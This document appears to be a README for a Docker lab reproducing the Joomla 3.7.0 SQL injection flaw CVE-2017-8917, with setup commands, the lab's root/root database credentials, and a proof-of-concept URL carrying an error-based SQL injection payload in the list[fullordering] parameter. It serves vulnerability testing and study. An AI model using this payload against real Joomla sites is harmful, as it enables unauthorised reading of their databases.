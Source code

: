 # Joomla 3.7.0 (CVE-2017-8917) SQL Injection Vulnerability Environment

## test environment

Compile and start the test environment:

```
Docker-compose build
Docker-compose up -d
```

After launching, visit `http://your-ip` to see the Joomla installation interface. The database information of the current environment is:

  - Database address: mysql: 3306
  - User: root
  - Password: root
  - Database name: joomla

Fill in the above information and install it normally.

## POC test

After the installation is complete, visit `http://your-ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)`, you can see Error message:

![](1.png)